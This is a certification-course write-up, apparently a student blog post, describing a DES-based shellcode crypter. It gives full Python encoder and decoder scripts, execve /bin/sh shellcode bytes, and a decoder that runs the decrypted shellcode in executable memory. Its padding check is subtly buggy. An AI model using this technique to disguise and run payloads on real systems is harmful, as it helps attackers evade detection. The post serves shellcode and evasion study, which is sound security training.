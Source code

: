 **Assignment 7**

 Create a shellcode crypter
 
	For this last SLAE assignment, I’ve created a shellcode crypter using the DES encryption using the pyCrypto library
	Refer:https://pypi.org/project/pycrypto/



**Methadology**

	Cryptor 

		DES Encryption
		Refer : https://en.wikipedia.org/wiki/Data_Encryption_Standard
		its a symmetric key encryption mechanism, due to the short keylength (56 bits) , its not very commonly used.

		For Cryptor a execve /bin/sh shell code is used


		Since the DES Encrypiton process ciphertext in a block of 8 , if the length of the shellcode is not a multiple of 8 , x90 is padded
		x90 , NOP doesnt really do anything ie xchg eax, eax , which wont cause a problem in our shellcode

		Crypter schema is achived using a python script which, takes a shellcode (execve /bin/sh) and padd x90 to make the shellcode a multiple of x90 and use pyCrypto library to encrypt the shellcode using DES
		the 8 bit key used is "aaaaaaaa"

	toor@ubuntu:~/Desktop/slae/Assignments/7$ cat encoder.py                                                                                             [12/288]
	#!/bin/python

	from Crypto.Cipher import DES
	import socket
	import sys
	import urllib


	shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"  #/bin/sh shellcode
	print(shellcode)

	print(" ")
	print("Length of the shellcode is "+str(len(shellcode)))
	print("Original Shellcode ")

	enc1 = ""

	for i in bytearray(shellcode):
 		enc1+="0x"
 		enc1+= "%02x," %(i & 0xff)

	print("----------------------")
	print(enc1.rstrip(','))



	if ((len(shellcode)/8)==0):                                                           #check if padding is needed
 		print("boo no padding is required")
	else:
 		padding = 8 * ((len(shellcode)/8)+1) - len(shellcode)
 		shellcode = shellcode + "\x90"*padding                                            #appending x90 to make the shellcode length a multiple of 8
 		print("Padding needed , appended  "+str(padding)+"""  \\x90 bytes""")         

	print(len(shellcode))

	cipher = DES.new("aaaaaaaa")                                                           #DES encryption key
	encrypted_data = cipher.encrypt(shellcode)											   #Encryption process

	enc2 = ""
	output= ""

	for i in bytearray(encrypted_data):
		 enc2+="0x"
	 	 enc2+= "%02x," %(i & 0xff)
 		 output += "\\x"
  		 output += '%02x'% i

	print("Encrypted Shellcode")
	print("----------------------")
	print(enc2.rstrip(','))																	#printing Encrypted shellcode

	print(output)

	toor@ubuntu:~/Desktop/slae/Assignments/7$



	Decrypter

	Decrypter takes the DES encrypted shellcode and decrypt the shellcode using the same key(symmetric encryption) and run the shellcode


	toor@ubuntu:~/Desktop/slae/Assignments/7$ cat decoder.py
	#!/bin/python

	from Crypto.Cipher import DES
	import socket
	import sys
	from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE
	import os


	encrypted_data = "\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a"  #DES Encrypted shellcode
	cipher = DES.new("aaaaaaaa")												#DES decryption key


	shellcode = cipher.decrypt(encrypted_data)                                  #DES Decryption



	libc = CDLL('libc.so.6')													# Passing control on to the shellcode using libc.so
	#shellcode = shellcode.replace('\\x','').decode('hex')
	sc = c_char_p(shellcode)
	size = len(shellcode)
	addr = c_void_p(libc.valloc(size))
	memmove(addr, sc, size)
	libc.mprotect(addr, size, 0x7)
	run = cast(addr, CFUNCTYPE(c_void_p))
	run()
	toor@ubuntu:~/Desktop/slae/Assignments/7$


**Practical**

Lets take the execve /bin/sh shellcode and use "aaaaaaaaa" key to encrypt using DES

toor@ubuntu:~/Desktop/slae/Assignments/7$ python encoder.py
1▒Ph//shh/bin▒▒▒̀

Length of the shellcode is 25
Original Shellcode
----------------------
0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80
Padding needed , appended  7  \x90 bytes
32
Encrypted Shellcode
----------------------
0x9a,0xa9,0x7d,0x8b,0xc4,0x0f,0x1a,0xca,0xeb,0x74,0xae,0x62,0x66,0x51,0x01,0xdd,0xc2,0x77,0x52,0xc5,0x55,0xb9,0xdf,0xe9,0xb0,0xbe,0xff,0xca,0x98,0x45,0xc1,0x9a
\x9a\xa9\x7d\x8b\xc4\x0f\x1a\xca\xeb\x74\xae\x62\x66\x51\x01\xdd\xc2\x77\x52\xc5\x55\xb9\xdf\xe9\xb0\xbe\xff\xca\x98\x45\xc1\x9a
toor@ubuntu:~/Desktop/slae/Assignments/7$


Lets take the encrypted payload and decrypt it using the same DES Key 

toor@ubuntu:~/Desktop/slae/Assignments/7$ python decoder.py
$ id
uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$


Works like a charm 


**Github Repo**
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509